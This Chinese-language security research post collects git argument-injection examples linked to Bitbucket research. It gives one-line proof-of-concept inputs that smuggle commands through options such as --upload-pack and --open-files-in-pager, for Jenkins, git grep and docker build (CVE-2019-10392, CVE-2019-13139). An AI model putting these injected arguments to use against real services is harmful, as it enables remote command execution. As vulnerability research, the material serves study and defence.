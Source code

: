 Bitbucket的漏洞可以跟gitlab等git服务解决方案的漏洞进行对比。如果今后它出漏洞很可能还是跟git参数命令相关的。<br>
下面提供一些git参数注入漏洞的例子：

<a class="reference-link" name="git%20ls-remote"></a>**git ls-remote**

比如Jenkins的Git Client插件的命令执行漏洞`CVE-2019-10392`，

```
git ls-remote -h --upload-pack=calc.exe HEAD
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01d57315da44b239e7.png)

这个也是git ls-remote命令的参数注入漏洞：

[https://snyk.io/vuln/npm:git-ls-remote:20160923](https://snyk.io/vuln/npm:git-ls-remote:20160923)

<a class="reference-link" name="git%20grep"></a>**git grep**

```
git grep --open-files-in-pager=calc.exe master
```

参考：[https://www.leavesongs.com/PENETRATION/escapeshellarg-and-parameter-injection.html](https://www.leavesongs.com/PENETRATION/escapeshellarg-and-parameter-injection.html)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t018493474aad0d0339.png)

感觉好几个是跟pager相关的。pager是用户指定的一个外部的执行diff、cat等功能的可执行文件的路径。

但是我在git log和git diff命令下没找到。

另外又看到几个git的参数注入的：

[https://staaldraad.github.io/post/2019-07-16-cve-2019-13139-docker-build/](https://staaldraad.github.io/post/2019-07-16-cve-2019-13139-docker-build/)

使用docker build命令的时候：

PoC：

```
docker build "git@g.com/a/b#--upload-pack=sleep 5;:"
```

实际上执行的命令是：

```
$ git init
$ git remote add git@g.com/a/b
$ git fetch origin "--upload-pack=sleep 5; git@g.com/a/b"
```

另外还有一个git submodule的命令执行：

```
https://staaldraad.github.io/post/2018-06-03-cve-2018-11235-git-rce/
```

